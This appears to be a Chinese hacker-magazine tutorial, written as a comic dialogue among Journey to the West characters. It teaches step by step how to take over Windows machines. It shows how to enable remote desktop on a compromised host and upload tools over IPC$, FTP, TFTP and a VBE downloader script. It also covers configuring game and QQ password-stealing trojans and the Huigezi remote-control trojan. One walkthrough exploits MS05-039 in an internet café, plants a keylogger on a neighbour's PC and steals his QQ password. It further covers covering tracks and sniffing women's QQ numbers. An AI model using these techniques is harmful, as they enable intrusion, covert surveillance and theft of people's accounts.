

图7

成功地得到了 shell，“哎！这样即使观音姐姐打了补丁，我只要 telnet 到她的电脑上就可以获得 shell 了。”唐僧开始摸入佳境。“话是这么说没错的，可是这样我们得到的还是一个 CMD 下的 shell，操作起来仍然不怎么方便。不知道 3389 肉鸡你们听说过没有？”悟空提出 3389 这东西的时候三个人都警惕地把头抬了起来。

“大师兄，这个问题想问你很久了，一直听说 3389，但是这只是一个端口号而已啊，到底有什么用呢？”沙僧依旧迷惑。

“3389 只是一个端口号，记得以前曾经说过，每一个端口号是对应了一个应用程序负责处理某种网络应用的。这个端口对应的是终端服务，这个服务允许我们登录后，以图形界面控制远程机器。比如我们使用 Windows XP 自带的远程桌面连接工具来连接肉鸡。依次点击‘开始/所有程序/附件/通讯/远程桌面连接’，就可以打开这个客户端，在里面填上开放了终端服务的 IP 地址，点‘连接’……”


图8


图9

‘连接’就会连接到远程服务器，同时出现登录界面。如果我们有远程电脑的帐号和密码就可以登录过去了，进去后，只要肉鸡的配置和网速够好，我们会有种就是在本地操作计算机的感觉，否则会稍微有点延迟。图8是远程桌面连接器的模样。图9是连接上后的登录界面。图10是登录成功后的界面，和在本地操作几乎没有什么区别。

而且由于每个用户都有自己独立的会话，你可以和管理员同时在线操控服务器而不影响对方。所以不会发生那些抢鼠标之类的现象，也不会很夸张地被发现。

“悟空，你做人太不厚道了吧？那么好的东西！居然现在才告诉我们，以后入侵的每一台电脑我都要打开它们的终端服务！”


图10

唐僧忿忿不平。

“确实终端服务由于操作上的便利性，深受广大黑友的喜爱，不过正所谓树大招风，管理员使用 `netstat -an` 一看，发现 3389 端口打开了，这台肉鸡也就活不久了。”悟空正待解释。八戒已经等不及了：“快说怎么样才可以开啊？”

“唉，现在的年轻人啊，真是没耐性。这个服务要在 Windows 2000 的服务器版和 Windows 2003 上才有利用价值。因为 2000 的专业版是没办法安装终端服务的，而 Windows XP 即使打开了终端服务也没办法利用。因为你一连接人家的机器就会提示说，某某要连接到本机，是否准许让人家来控制自己的机器。所以，我们在开终端服务之前，首先得判断系统的类型。”

“一般情况下，C 盘的根目录下有个 `boot.ini` 里会有系统的类型。除非被管理员故意更改过了。所以我们在 shell 下 `type c:\boot.ini` 就可以看到了。”

```txt
D:\>type c:\boot.ini
[boot loader]
timeout=30
default=multi(0)disk(0)rdisk(0)partition(2)\WINDOWS
[operating systems]
multi(0)disk(0)rdisk(0)partition(2)\WINDOWS="Microsoft Windows XP Professional" /fastdetect /NoExecute=OptIn
```

注意到这里就是俺的机器，上面显示的结果是 WinXP PRO 版。具体的意思就不解释了，如果遇到 BT 的管理员更改过这个信息，我们还可以使用一个命令，输入 `query user` 后，如果提示“`query`不是内部或外部命令，也不是可运行的程序或批处理文件。”那么这台电脑就很有可能是 Win2000 专业版，因为如果是 server 版的系统默认是有 query 这个命令的。当该服务器已安装终端服务时，`query user` 这个命令可以查看当前有哪些用户登录到服务器上了。若没有安装终端服务的 server 版，则会提示该命令需要终端服务的运行。

八戒小心翼翼地输入 `query user` 开心地大叫：“它说需要终端服务的运行。那就是 Server 版吧，猴哥，交给你了。”悟空很轻松地在 shell 中敲下四行命令：

```bat
echo [Components] > c:\bootlog.txt
echo TSEnabled = on >> c:\bootlog.txt
sysocmgr /i:%windir%\inf\sysoc.inf /u:c:\bootlog.txt /q /r
rundll32.exe user.exe,RestartWindows
```

前三行命令是网上流传的 Win2000 无人值守命令安装终端服务的拿手好戏，第四行是重新启动肉鸡使终端服务生效。做这件事之前要考虑清楚，因为如果管理员正好在线的话，这台鸡马上就……

## 小鸡快跑

会飞掉，还有如果对方是 ADSL 用户，一旦重启拨号，IP 地址也会改变，到时候找不到辛辛苦苦打开终端服务的肉鸡可别哭啊。

几分钟的时间，肉鸡重启完毕了。悟空重新盗出肉鸡，在 shell 中输入 `netstat -an` 会很清楚地看到 3389 端口打开了（笔者自己实验的时候发现需要管理员登录了以后才会生效，因为没有更多的条件进行测试，不确定是否一定需要管理员的登录。所以如果你测试没有成功，那可能属于笔者这种情况）。那么就不客气了！打开远程桌面连接，填入 IP 地址，单击连接，输入我们刚才加的管理员帐号，进去 happy 吧。他当初就是通过肉鸡来学习 Windows 下的操作的！

“大师兄，我有问题。”沙僧每次学得都最认真，指着自己的电脑给悟空看道：“刚才打开的 telnet 服务重启以后又 telnet 不上了，怎么回事？还有，3389 这个端口太招摇了，管理员一看不就发现了？还有没有别的办法可以长期地控制肉鸡又不容易被发现的啊？”

“嗯，沙师弟说得很有道理，要长期地控制肉鸡就要涉及到使用后门了，只要给肉鸡安装上一个好的后门，甚至可以把一只鸡使唤个一年以上。不过由于最近的后门品种比较多，以及后门要分好多种！要一一介绍会比较花时间，我们下次再一并做介绍了。而且，刚才呆子不是还想放木马到肉鸡上吗？种马和装后门之前有一步是必须的，就是你要把你的文件上传到肉鸡上！今天剩下的一点时间我们着重讲一下这个问题好了，这样到时候你们要传什么东西过去我就不管了。”悟空发现天色已晚，打算赶快讲完今天的东西让他们这些灯泡快闪。

#### 1. IPC$ 共享上传

Win2000 和 Win2003 系统的默认共享原先是为了管理员而设的，有了一个帐号以后就可以远程管理服务器了，今天我们来冒充一下管理员。在地址栏输入 `\\192.168.1.123\c$`，这是打开 192.168.1.123 的 C 盘，默认情况下，2000 和 2003 系统是有这个共享存在的。如果你刚刚用 `ms05039` 溢出过对方，就不用试了，因为这个溢出漏洞会让对方的网络共享服务挂掉的，得重启才可以继续。这时候会弹出个对话框提示输入用户名和密码（如果是 Windows XP 可能会有点不同），然后就可以看到类似于图 11 的样子。直接把文件拖进去就是了，要从对方的电脑上下载也可以直接拖回来，非常地方便。


#### 2. FTP 上传

FTP（文件传输协议）是一种非常普遍的传输文件的方法。我们首先把自己的电脑做成一个 FTP 服务器（前提是对方可以直接访问我们的 IP），我利用的工具是 20CN 的一个 mini FTP 服务器，如图 12。设置好帐号、密码以及访问目录以后，点“启动服务”就在本机打开了一个 FTP 服务了。我们现在要做的是在 shell 中控制肉鸡访问我们的 FTP 并从我们的机器上下载东西回去，比如我机器上的 `C:\hacking\mt.exe`。

在 Mini FTP 中，将访问目录设为 `C:\Hacking`，这样别人一旦登录我们的 FTP，看到的东西就是 `C:\Hacking` 里的东西，然后再下载 `mt.exe` 就好了。


在命令行中做这件事也不难，问题是在 shell 中，不支持重定向（具体就不说了），所以我们要先把命令都写在一个文件里，再让 shell 根据这个文件里的命令一行一行地执行。写文本文件使用的命令是 `echo`。

```
echo 用法：`echo 内容 > 文件完整路径`（其中路径若含空格需要用双引号引起来）
```

```
G:\>echo net user 悟空 /add > "c:\program files\hack.bat"
G:\>type "c:\program files\hack.bat"
net user 悟空 /add
```

注意到这里的 `>` 符号，如果写两个 `>>`，就是把内容追加到我们指定的文件去，否则是覆盖。大家可以尝试一下：

```
echo test>a.txt
echo abcd>>a.txt
type a.txt
```

好了，介绍完 echo 命令以后，我们就来实际进行操作了。在 shell 中依次输入下列几行命令：

```
echo open 192.168.1.123>ftp.txt
echo zvoq>>ftp.txt
echo ?>>ftp.txt
echo bin>>ftp.txt
echo get mt.exe>>ftp.txt
echo bye>>ftp.txt
```

这样就会把我们的命令都写到 ftp.txt 了，使用 `type ftp.txt` 可以看到 ftp.txt 现在的内容：

```
C:\>type ftp.txt
open 192.168.1.123
zvoq
?
bin
get mt.exe
bye
```

最后是关键的一个命令了：`ftp -s:ftp.txt`，执行的结果如图 12。记得做完坏事要打扫 PP，把刚才生成的 ftp.txt 删除，否则被管理员看到了你就哭吧……

#### 3. TFTP 上传

TFTP 是简单文件传输协议，顾名思义就是比 FTP 更简单一些，它没有用户身份验证的功能，而且由于基于 UDP 协议，也不怎么稳定，不能传大文件。但是对于我们只有小几 K 的黑软来说，反而由于它的简便而深受欢迎。

还是在我们的电脑上架设 TFTP 服务器：使用的工具是 tftpd32.exe，双击运行就可以了。把我们要提供的软件放到和 tftpd32.exe 同一目录下。然后到 shell 中执行：

```bash
tftp -i [我们的IP地址] get [要传送的文件]
```

`-i` 参数表示以二进制传输。

例：`tftp -i 192.168.1.123 get mt.exe`。如果成功的话，在 shell 中和 TFTP 服务器中都有显示，报告发送了多少字节的数据、花了多少时间之类的。


#### 4. 脚本下载

利用系统自带的 Cscript.exe 执行 VBE 或者 VBS 代码而下载网上的文件，也是入侵的时候使用非常广泛的一种方法。在 CMD 下，将这段代码复制到 shell 中：

```vb
@echo iLocal = LCase(WScript.Arguments(1)) >iget.vbe
@echo iRemote = LCase(WScript.Arguments(0))>>iget.vbe
@echo Set xPost = CreateObject("Microsoft.XMLHTTP")>>iget.vbe
@echo xPost.Open "GET", iRemote, 0 >>iget.vbe
@echo xPost.Send() >>iget.vbe
@echo Set sGet = CreateObject("ADODB.Stream") >>iget.vbe
@echo sGet.Mode = 3 >>iget.vbe
@echo sGet.Type = 1 >>iget.vbe
@echo sGet.Open() >>iget.vbe
@echo sGet.Write(xPost.responseBody) >>iget.vbe
@echo sGet.SaveToFile iLocal,2 >>iget.vbe
```

敲下回车，一阵代码雨下过之后，就会在 shell 的当前目录下生成一个 `iget.vbe`。使用：`iget.vbe http://zhiyeqianqian.51web.cn/su.jpg test.exe` 可以将链接内容下载并保存为 `test.exe`。

关于脚本下载网上还流传有几个版本，使用也大多差不多，限于篇幅不能全部介绍了。


#### 5. 缓存利用

原理不多说了，首先在 shell 中输入 `cd /` 切换到系统根目录。把准备好的工具改名为 jpg 或 gif 一类后缀并上传。然后执行 `start its:http://zhiyeqianqian.51web.cn/su.jpg`，下载会进入 IE 临时文件夹，常见保存名如 `su[1].jpg`。再用 `dir su[1].jpg /s` 搜索具体目录。


将找到的缓存文件复制到当前目录并改名为可执行文件，例如：

`copy "C:\Documents and Settings\Default User\Local Settings\Temporary Internet Files\Content.IE5\...\su[1].jpg" servuloc.exe`。


#### 6. exe2bat

利用工具 exe2bat V2.0 大文件版。首先要找一个个头比较小的工具，这个工具的主要任务就是可以用来下载文件，因为 exe2bat 的方法在遇到稍微大一点的文件的时候就会花很长时间，尤其在 shell 中更容易把溢出得到的 shell 搞挂掉，所以我们是尽量能小就小。推荐的是一款非常小的下载器，名字叫做 minUrlDown，事先配置好要下载的程序和下载后保存到什么位置，点生成就会得到一个 592 字节的 urldown.exe，如图18。


图18

exe2bat 的工具如图19，单击上边的那个小按钮找到 urldown.exe，单击 Run 按钮。就会在 exe2bat 这个工具的目录下生成 e2b.bat，右键编辑，找到最下面的“@start urldown.exe”这一句删掉。不要留出空行，然后把 bat 里的内容分批复制粘贴到 shell 中，最好分三次或以上。因为数据稍微大一点，nc 就会假死，这个 shell 就会挂掉。然后成功执行后，就会在 shell 的当前目录下生成一个 urldown.exe。同时由于调用过 debug，这个 shell 会出现一些问题，比如无法显示中文之类的；也有些程序运行失败。所以最好是重新溢出得到一个 shell，运行 urldown.exe 就会自动下载指定程序了。


图19

如果按照图中的配置，现在 C 盘下就应该有一个 servu.exe 了。因为 urldown 虽然小，但是只能下载一个文件，所以如果可以的话，建议先使用 urldown 下载一个 hget.exe 一类的东西，这样可以方便地使用 hget.exe 或者同类工具再任意下载或者上传其他东西。

## 7. 其它工具下载

假设肉鸡以前被人入侵过留下了一些黑客软件，或者被安装了某些后门，它们又正好具有上传的功能，我们就可以直接实行拿来主义就好了。还有些时候，我们同时拥有 WEBshell 和 CMDshell，我们要充分利用 WEBshell 的上传功能来简化入侵的过程。

> “大师兄，你一般第一个上传的工具是什么啊？”沙僧问。

“当然是 mt.exe 啊，上传了以后，就可以做很多事了，什么开终端服务啊，寻找当前管理员密码啊，克隆账号啊，清除日志啊等等等等……我还没说完呢，唉，导演，别喊 CUT 啊！”

> （本文涉及到的工具 MS05039 溢出及扫描工具、mini FTP 服务器、tftpd32.exe、exe2bat v2.0 大文件版，光盘有收录）


李杰

现在很多人都喜欢在网吧里上网，有的喜欢那种气氛，有的则希望能遇到位漂亮的 MM，正所谓是萝卜青菜各有所爱！但是当一些菜菜真的遇上了漂亮 MM 的时候，是不是感到没能得到她的 QQ 号码而懊恼呢？现在我就来教菜菜们如何得到 MM 的 QQ。

首先我们需要找到一款名为《QQ 第六感 V1.2》的软件！由于这款软件是需要注册的，在这我为大家提供 ID 和注册码（ID：DimRacker，注册码：123456-DBAA9003-D59D369F），当然请有条件的朋友就去买吧，毕竟别人做软件也是很辛苦的！

运行后如图1，现在我们就来做一次试验，让我来找个 MM。哈哈，20 号机器上有 MM 啊！首先在“在线主机IP地址”栏目里选中 20，然后再点击右下角的“监听QQ号”按钮，然后再等一会……看到了吧，MM 的 QQ 号码出来了，如图2。晕！MM 有 4 个 QQ 号码！这位 MM 的人气真够旺的，一个 QQ 都不够用，啊啊！接下来我们就可以加她为好友，再剩下的事就要看你的口才啦！我帮不了你了！

> （本章节涉及到的程序 QQ 第六感已经收录在本期光盘中）


图1


图2

### 永恒的神话——特洛伊木马

#### X档案室

自从上月悟空从医院里偷跑出来给八戒他们上课，后来被医生给“抓”回去之后（还没有交住院费呢，省得咱掏么），就一直待在医院里。虽然无聊，好在还有大圣牌笔记本电脑可以免费上网。干脆就去魔兽世界里转转，没想到刚转一会儿就莫名其妙地被部落的人追杀，对方级别高、装备好，又是“多人协同作战”，悟空的筋斗云、金箍棒全无用武之地，只得落荒而逃，逃跑间看到八戒路过，向他求助，他居然不理不睬，眼看着悟空被人活生生打死。

想去找尸体复活，结果系统又出了 BUG，这下悟空气不打一处来，二话不说就找到正在上课的八戒面前一顿揍，然后才开始听八戒解释：“猴哥别怪啊，我正在上课呢，自从上次把你从魔兽世界里找出来之后，我们就再也没摸过这个游戏，专心学习技术着呢，不信你问沙师弟和师傅……”

> 听到这话，悟空忽然吓一跳：“难道说？”

“什么？”

“呆子，快登录魔兽看看……果然，号被盗了！你这个笨蛋！好不容易练了这么高的级别啊！赶紧申请密码保护把密码改回来，装备！装备也全没了！”

“哇”的一声，八戒忽然哭了出来，悟空赶紧连声安慰：“呆子，乖，估计是中了木马而已，不怕，把木马杀掉重新养来过就是了……”

“木马？什么是木马？给我做的蜡像吗？”白龙马友情客串。

“不是了，我们这里所说的木马是一个精心编写的程序，当你运行它以后，它就会潜伏在你的机器中，完成特定的使命。”

“一般都会做些什么事啊？”

“一般情况下，我们把现在的木马分成三大类，一是特定程序木马，这种木马专门潜伏在系统里，监视着指定的程序。比如 QQ、魔兽世界、传奇、天堂II 或者大话西游这些程序一旦运行，它就开始记录键盘的输入，当然，保存下来的密码自然会发送给别人，此类木马称为盗号型木马。”

“二是传统木马，这类木马一般是打开一个端口，允许任何人连接，然后控制整个机器（当然会有密码保护措施）。也有的是反向将自己的控制权发送给指定用户。最主要的作用是留下后路供入侵者光顾被种上木马的系统，此类木马一般叫做后门。”

“三是网页木马，严格来说，网页木马本身不会在你的机器上一直潜伏，但是它会使你在访问它时，自动下载并运行别的木马。人们常说的挂马就是制作一个网页木马后，将其嵌入一些被自己入侵的网站的某个正常页面，使浏览者中招。”

“所以八戒一定是中了魔兽世界盗号木马了，正好最近出了一个魔兽世界黑眼睛，我手头上也有这个东西，我们一起来看看它是怎么使用的。”

#### 二、魔兽世界黑眼睛

解压缩后，运行 MSBlackEye.exe，如图1所示。


图 1

它只是一个配置程序，我们填入自定义的信息后，使用它生成木马程序，让别人运行这个程序后，我们的木马就开始工作了！给别人运行的木马程序叫做服务端程序。

要让木马将记录下来的帐号密码等信息发送给我们知道，我们自然要提供接收密码的方法了。现在流行的方式有两种，一是以邮件的形式发送到指定的邮箱里去，二是通过某特定的网页，由该网页收集和记录下这些信息。

如果选择第一种，那么我们首先要申请两个邮箱，一个用来发送邮件；另一个用来接收邮件。请不要觉得麻烦！如果你不想自己辛苦的劳动成果被别人窃取的话，就花点精力到 http://mail.126.com 上申请两个邮箱。当然使用其它邮箱也可以，例如 126 的邮箱就比较稳定。

申请完邮箱以后，我们首先指定收信邮箱：rec_pass@126.com，然后指定发信邮箱：zhiyeqianqian@126.com。发信是需要登录发信的邮件服务器的（SMTP服务器），同时需要提供我们的用户名和密码，这里照实填写，否则收不到信就白干了：

```
用户名：zhiyeqianqian
密码：（可填写发件者登录邮箱密码）
发信的主题：你的主题
```

下面还有一个网站收信功能，我们一会儿再看如何使用。现在先切换到“安装配置”选项卡去，如图2。

这里需要设置有几个地方：


图 2

- 1. 安装路径：需要定义木马自动释放出的文件存在何处，叫什么名字。（假设系统在 C 盘）那么我们选择的 `<System>` 就相当于 `c:\winnt\system32\`（或者是 `c:\windows\system32\`）。
- 2. 服务选项：如果是 2000 或者 XP 或者 2003 系统，木马将以服务的形式启动。路径和文件名应尽量接近系统进程和原名字，比如 inetsrv.exe，还需为钩子文件起个名字，同样要写得迷惑一点，就叫 Internet.dll 吧。

### 什么是系统服务

在 Windows2000/XP/2003 系统中，服务是指执行特定系统功能的程序……服务可以使用服务管理器进行管理，每一个服务都有自己的服务名、显示名、服务描述等。

如果是 2K 以上的系统请跟我按如下步骤打开服务管理器……右边就出现所有服务的内容了，如图 3。我们看到上面有提示服务名称、描述、启动类型等等……


图 3

只要了解我们的木马就是伪装成系统服务来达到自启动目的就够了。所以，在配置的时候，服务名、服务显示名，以及服务描述要越接近系统正常服务的样子越好……

三个选项，`<Run>`、`<Runservice>` 与 `<Shell>`，建议使用 `<Shell>` 会比前两个要隐蔽一些。全部都填写完毕了，单击“生成木马”吧。会询问你是否采用该配置；选“是”就会在同级目录下生成 muma.exe。

还有一种收信方式是网页收信方式。因为邮件收信毕竟太麻烦，而且它要访问 SMTP 服务器的 25 端口才能工作……使用 Base64 解码工具解码后，可以看到明文用户名等信息。


图 4

一旦被人家获取了这些信息，他们就可以修改我们邮箱的密码，那么我们之前配置好的木马将登录不了 SMTP 服务器……

那网页收信又是怎么回事呢？它实际上就类似于一个留言本的东西……只需要保存下木马发过来的“留言”就够了。现在我们把“留言本”地址告诉木马，木马会模拟浏览器向该“留言本”提交它的“劳动成果”。

这是 Http 收信地址。当这些东西都填写完毕了，我们就可以单击“生成木马”了。如果对邮箱设置不放心还可以测试一下……一般都会成功的。

生成的 muma.exe 会在对方机器上安装好服务，但是还需要 server 目录下的 server.exe 一起给对方运行后，魔兽黑眼睛就开始正式工作了……

“咦？原来这样啊？那八戒为什么会运行人家的木马呢？”“我冤枉啊，我怎么会自己去运行人家的木马呢？”……（对话体内容）

## 三、大话西游II木马

下载地址：http://www.chineshack.org/down/show.asp?id=4991，解压缩后会看到 readme.txt 是说明文件，mail.dll 是邮件发送的动态链接库……

## 小鸡快跑

端内置了一个地址，可以下载此 DLL 文件，但是为了避免该下载地址失效，建议大家还是自己找个地方将此 DLL 改名后上传。比如改名为 mail.jpg 后，找个论坛发帖子的时候上传，或者直接使用自己的空间上传，比如我会将它保存在自己的空间上：http://zhiyeqianqian.51web.cn/mail.jpg，而 final.exe 是配置程序，运行它后出现图5的界面。很清爽吧？


图6

只有两个地方需要填写：一是收信地址，二是那个 DLL 文件的下载地址。当然，文件名已经改成你自己的名字了。也许有朋友会问，不是说邮箱发信需要填 SMTP 服务器的验证信息吗？为什么你这里没填呢？


图5

这是作者使用了 MX 技术，自动根据你填写的收信地址来搜索可用的 SMTP 服务器了，所以极大地方便了使用者。因为我们可以不再担心自己的邮箱信息泄露了！该程序使用了 DLL 注入技术，没有进程，对计算机的资源占有也很少，肉眼根本无法感觉到有木马程序在运行，同时也可以很轻松穿透防火墙！但是它也有缺陷：一旦内置的 DLL 文件下载地址和你设置的 DLL 下载地址都失效了的话，就再也发不出信了。作者有句话提醒得好：请大家不要用此程序做非法的勾当！

#### 三、传奇世界最新盗号木马

这是一个叫做孤火的小程序。它只支持 ASP 收信方式，如图6。比如我们将整套程序放到了 http://zhiyeqianqian.51web.cn/cqsj/ 目录下了，那么图中要填写的收信地址就是：http://zhiyeqianqian.51web.cn/cqsj/PostData.asp。然后生成木马就可以了（木马名为：“孤^火”.com，不是 exe 扩展名，大家不要自己去点它哦）。

正好前面讲到 ASP 收信方式的时候，有很多细节我们没有一一讲明。现在我们来看看这套 ASP 收信程序。在将它上传到空间之前，我们有件工作必须得完成，大家还记得网站入侵的时候，我们做了些什么吗？下载他人的数据库！这些程序将马上发送的数据会保存在 DATABASE.mdb 中，如果被别人发现了，将其下载下来，我们的劳动成果岂非又要被人无情地夺走了？当然不行！马上将其改掉。

```
在 conn.asp 中将

`DBQ="server.mappath('DATABASE.mdb')"`

改为类似

`DBQ="server.mappath('cqsjdata2513.asp')"`
```


图7

现在我们可以放心地将整套程序传到空间上了，然后访问 http://zhiyeqianqian.51web.cn/cqsj/，你自己放在哪就访问它去吧，使用默认账号和密码 admin 登录。因为目前还没有收到任何账号，所以单击“管理”将用户名和密码修改为你自己喜欢的用户名和密码。注意，此密码是明文保存的，建议不要使用个人常用密码，比如你的 QQ 密码。

### 四、阿拉QQ大盗

本来 QQ 盗号工具满天飞，可是自从腾讯 9 月 22 日推出 QQ 2005 beta3 版本后，所有的键盘记录型 QQ 盗号工具一下都哑了炮，因为 QQ 2005 beta3 采用了国际先进的 nProtect 键盘加密保护技术。

好在阿拉QQ大盗没几天就推出了可以通杀 QQ 2005 beta3 的版本，它首先破坏掉 nProtect 键盘加密组件，然后再进行键盘记录。阿拉QQ大盗也是支持邮箱与网页收信两种形式，甚至还可以将普通号与靓号分开发送给不同的邮箱。

- 1. 运行后关闭QQ：木马安装后，指定时间内关闭对方QQ，迫使其重新登录，以便快速盗取密码。
- 2. 过滤重复号码：建议勾选，避免重复记录旧号码。
- 3. 安装后删除自身：用于隐藏程序存在。
- 4. 图标：一般我喜欢选择图片的图标。这样骗人说那是照片也方便些嘛，如图8所示。
- 5. 其它：个人认为默认就够了，如果在网吧的话，还可以将“还原精灵自动转存”选上……


图8


图9

收信更简单了，将 tmdqq.asp 上传到空间，比如 http://zhiyeqianqian.51web.cn/qq/tmdqq.asp，然后将此地址填入 ASP 接口地址如图9，然后单击生成木马就可以了。不过这里我要说的是，最好不要使用 tmdqq.asp 这种默认的文件名……


图10

#### 三、远程控制类木马配置

前面提到的木马都只是专窃某种程序的密码，危害虽大，可是你能保证被你种了魔兽木马的人一定就玩这个游戏吗？……这个木马我们今天使用的是灰鸽子 Vip 2005 版。

解压缩后，除了客户端，还有一个 huigezi 文件夹。这个文件夹中的东西是用来破解鸽子的用户验证的。首先解释一下鸽子的使用流程：

- 1. 设置服务端；
- 2. 输入用户名和密码到灰鸽子服务器上去验证；
- 3. 如通过的话，下载对应的配置文件，同时配合刚才的设置生成服务端；
- 4. 给肉鸡运行服务端，正常使用灰鸽子。

注意到了吗？里面有一步很关键的验证！因为它要到鸽子的服务器上去验证，所以我们必须阻止这一步！如何阻止？我们一起来看看起关键作用的 HOST 文件……


图11

再打开 D:\WINDOWS\system32\drivers\etc 目录，使用记事本打开 HOSTS 文件，如图11。注意到最下面几行：

```
127.0.0.1 localhost
127.0.0.1 vip.huigezi.com
127.0.0.1 www.huigezi.org
127.0.0.1 down.huigezi.net
```

正常情况下是只有 127.0.0.1 localhost 这一行的……同时，打开 huigezi 目录中的 HTTP.exe，单击“开始服务”运行 HTTP 服务……


图12

如果机器上装有 IIS 或者 Apache 服务，请暂时停止它们。这样鸽子来验证的时候不会得到回应嘛。一切准备完毕，我们可以正式配置鸽子了。打开 H-Client.exe，单击“配置服务程序”后出现如图12的界面。

至于后面的安装选项（设置进程名、是否自删除、是否在托盘显示图标以及是否键盘记录）、启动项、代理服务器、高级选项与服务端图标都可按需设置……

我们知道，一般情况下，如果肉鸡在一个内网里，我们在外网是没办法直接访问到它的……这就是大名鼎鼎的反弹型连接。

可是，现在我们大多数人使用的都是电信 ADSL 服务，尽管拥有外网 IP 地址，可是一旦下线再拨号，IP 地址就变了……那么肉鸡怎么再次找到我们？这是一个问题。

现在我们假设自己有一个空间固定不变：http://zhiyeqianqian.51web.cn/，那么每次上线后，把最新 IP 与监听端口写到文件并上传，肉鸡定时访问后即可反向连接……将“只使用备用自动上线”选上，就完成了配置服务端的前置步骤。

在用户名和密码处随便填些东西，单击“生成服务器”就会看到“连接服务器失败，使用备用服务器验证”，然后就通过验证，下载配置文件，在鸽子的目录下生成 setup.exe（此路径可以自己改）。将这个 setup.exe 给肉鸡运行前，别忘了 http://zhiyeqianqian.51web.cn/ip.jpg 这个东西我们还没做设置呢。单击自动上线按钮，出现如图13的界面。

填入自己的 FTP 服务器地址、用户名与密码、文件的路径，以及现在的 IP 与端口，再单击更新 IP 到服务器就可以了。


等等，不出一分钟，就会有一声清脆的“有主机上线”的语音提示了，如图14。在此之后，我们可以单击那些按钮就可以完成相应的操作了：“捕捉屏幕”查看对方正在做什么，“视频监控”可以检测对方是否有摄像头……


权限的，偷偷传给我一份就好了。至于远程文件管理、命令、注册表操作等功能，由于都是图形界面和本机操作基本上没什么不同，所以也就不再赘述了。……完整的入侵木马和外挂 Webshell 挂马的实例放到下一节课再讲好了。

## X课堂笔记｜菜鸟的入侵实习

在医院待了一个多月后，悟空终于出院了！……悟空沉思了一下，说道：“我在医院待了这么久了，有点儿手生，既然如此，那我们这堂课就把前边几节课的内容以几个完整的入侵实例的形式来复习一下。”

这样你们可以将前几堂课的知识结合起来使用。

#### 一、盗号的温床——网吧

- 操作系统：Windows 2000 操作系统 + 硬盘还原卡 + Pubwin 管理系统
- 准备工具：QQ 网络改锥（存双果账）、MS05039 扫描器、相关溢出工具与木马

好在机器并没有封锁硬盘，于是依次打开“我的电脑”，进入 C:\WINNT\system32\ 目录下找到 cmd.exe，双击运行。也可以新建一个文本文档，写入“start cmd.exe”并保存为 BAT 文件，然后双击运行打开 CMD。输入 ipconfig /all 查看到本机的 IP 地址为 192.168.0.90，如图1。


看来每台机器的 IP 地址都与桌面上的牌号是一一对应的（其实许多网吧都是这么设置的），假如看到了 110 号机器正在玩魔兽世界，那么等会儿我们要盗魔兽世界的号，直接入侵 192.168.0.110 就可以了。现在从网络硬盘上把黑软下载下来，拿出 MS05039 扫描器，填入 IP 范围 192.168.0.102 到 192.168.0.120，随便一扫，结果如图2。

打开一个新的 CMD 窗口，用 nc -vv -l -p 1234 监听好本地端口，然后在另一个 CMD 里执行：ms05039.exe 192.168.0.91 192.168.0.90 1234，结果如图4。

很快就得到了 shell，他还浑然不知呢。现在在本地运行 tftpd32.exe 架好 TFTP 服务，然后在得到的 CMD shell 中输入命令：

```bash
tftp -i 192.168.0.90 get mt.exe
tftp -i 192.168.0.90 get 1.exe
```


除了 1 台没有开机的机器外，所有的系统都存在漏洞！既然网管这么懒，那么我们就不客气了！发现 91 号就是在我们左手边全神贯注地玩 QQ 堂，时不时还会切换出来和 QQ 上的好友聊几句，现在目标就锁定为他的 QQ 号码吧！

首先到阿拉 QQ 作者的老家（http://ala2vip.ys168.com/）去下载一个最新的阿拉 QQ，配置出一个木马 1.exe，如图3。


将 mt.exe 和配置好的木马 1.exe 上传到对方电脑上。输入 1.exe 把阿拉 QQ 大盗安装好！接着使用 mt.exe -pskill qq.exe 把对方的 QQ 进程结束掉，过了几分钟他切换出来想和别人聊天的时候，发现 QQ 不见了，接着只见他毫无戒心地重新登录了 QQ，而我们的信箱里自然就乖乖地躺下了一封密码信件了。

当然，如果你的目的不是 QQ 号码，而是其它网络游戏，也很容易。比如对方在玩魔兽世界，那么我们就配置一个黑眼睛让对方运行；若是对方在玩大话，我们就给一个大话西游木马，结束游戏进程，等对方重新输密码我们就坐收渔利了。

不过，刚才我们也看到了，那家伙在玩 QQ 堂，而这个游戏似乎没听说过有什么盗号木马，这时候就到了灰鸽子大显身手的时候了！配置好一个灰鸽子服务端，通过同样步骤上传并运行后，我们在自动上线的鸽子客户端里切换到“远程控制命令”选项，找到“进程管理”，单击右边“查看进程”，选中 QQ 堂对应进程 client.exe，再单击“终止进程”，如图5。


这时候对方会发现忽然间掉线了，只见他奇怪了一会儿后，依然毫无戒心地重新启动了 QQ 堂客户端。而此时，我们要赶在他输入用户名和密码之前，在灰鸽子客户端里切换到“键盘记录”功能中，单击“启动击键记录”，等着他输完密码后，进入游戏时我们就“终止击键记录”，然后再查看击键记录就可以看到他刚才输入了什么东西了，如图6。


当然，如果没办法肉眼观察对方屏幕时，你可以使用“捕获屏幕”功能，如图7。选择适当的时候记录键盘与查看就可以了。


由于网吧有硬盘还原卡，重新启动后我们什么痕迹都不会留下，所以直接大胆地按下 Reset 冷重启吧。

#### 二、批量溢出显神威

或许大家也发现了，刚才一下子扫描到这么多机器，可是如果一个一个地溢出，光是敲命令，这份罪也不好受啊！那么现在传授大家一个批量溢出工具；鼠标轻松一点，肉鸡滚滚而来。批量溢出工具打开后，如图8。


